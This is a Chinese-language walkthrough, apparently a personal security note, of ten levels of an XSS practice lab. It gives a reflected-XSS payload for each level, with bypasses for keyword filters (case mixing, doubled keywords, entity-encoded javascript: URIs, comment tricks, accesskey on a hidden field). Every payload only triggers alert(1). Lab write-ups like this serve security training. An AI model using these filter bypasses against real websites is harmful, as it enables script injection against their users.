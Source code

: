 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用<text>http://才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释http://</text></br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```










